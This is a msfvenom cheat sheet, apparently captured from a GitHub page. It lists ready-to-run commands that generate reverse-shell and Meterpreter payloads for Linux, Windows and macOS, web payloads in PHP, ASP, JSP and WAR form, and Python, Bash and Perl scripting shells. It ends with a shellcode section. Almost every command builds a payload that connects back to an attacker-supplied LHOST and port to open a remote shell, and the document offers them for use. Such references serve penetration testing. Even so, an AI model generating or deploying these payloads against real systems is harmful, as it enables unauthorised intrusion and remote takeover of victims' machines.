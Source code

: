 ## List payloads

msfvenom -l

## Binaries Linux

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

## Windows

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

## Mac

msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho

## Web Payloads PHP

msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

## ASP

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

## JSP

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp

## WAR

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

## Scripting Payloads Python

msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

## Bash

msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh

## Perl

msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl

-------------

# Shellcode

- For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

### Linux Based Shellcode

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

### Windows Based Shellcode

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

### Mac Based Shellcode

msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
